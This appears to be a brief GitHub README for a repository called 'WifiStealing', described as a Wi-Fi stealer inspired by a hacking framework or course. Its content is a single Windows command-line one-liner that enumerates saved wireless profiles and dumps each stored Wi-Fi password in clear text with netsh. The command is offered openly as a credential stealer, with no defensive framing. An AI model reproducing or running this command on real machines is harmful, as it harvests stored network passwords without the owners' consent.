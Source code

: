 # WifiStealing
Wifi Stealer inspired by Manjuska Framework/TCM


:)


for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
